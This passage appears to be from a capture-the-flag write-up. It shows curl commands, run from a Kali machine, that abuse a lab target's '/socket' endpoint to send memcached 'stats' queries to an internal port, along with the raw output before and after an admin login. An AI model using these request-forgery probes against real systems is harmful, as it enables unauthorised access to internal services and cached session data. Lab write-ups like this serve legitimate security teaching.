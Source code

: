 

    root@kali# curl -s 'http://10.10.10.86:8080/socket?port=11211&cmd=stats slabs' -H "Cookie: password=secret" | sed -n '/pre/{:a;n;/pre/b;p;ba}'
    STAT active_slabs 0
    STAT total_malloced 0
    END

    root@kali# curl -s 'http://10.10.10.86:8080/socket?port=11211&cmd=stats items' -H "Cookie: password=secret" | sed -n '/pre/{:a;n;/pre/b;p;ba}'
    END



That's because the cache has timed out and emptied. If I visit the port
80 site and login as admin, and run these same queries again:



    root@kali# curl -s 'http://10.10.10.86:8080/socket?port=11211&cmd=stats slabs' -H "Cookie: password=secret" | sed -n '/pre/{:a;n;/pre/b;p;ba}'
    STAT 16:chunk_size 2904
    STAT 16:chunks_per_page 361
    STAT 16:total_pages 1
    STAT 16:total_chunks 361
    STAT 16:used_chunks 1
    STAT 16:free_chunks 360
    STAT 16:free_chunks_end 0
    STAT 16:mem_requested 2880
    STAT 16:get_hits 0
    STAT 16:cmd_set 1
    STAT 16:delete_hits 0
    STAT 16:incr_hits 0
    STAT 16:decr_hits 0
    STAT 16:cas_hits 0
    STAT 16:cas_badval 0
    STAT 16:touch_hits 0
    STAT 26:chunk_size 27120
    STAT 26:chunks_per_page 38
    STAT 26:total_pages 1
    STAT 26:total_chunks 38
    STAT 26:used_chunks 1
    STAT 26:free_chunks 37
    STAT 26:free_chunks_end 0
    STAT 26:mem_requested 24699
    STAT 26:get_hits 0
    STAT 26:cmd_set 1
    STAT 26:delete_hits 0
    STAT 26:incr_hits 0
    STAT 26:decr_hits 0
    STAT 26:cas_hits 0
    STAT 26:cas_badval 0
    STAT 26:touch_hits 0
    STAT active_slabs 2
    STAT total_malloced 2078904
    END
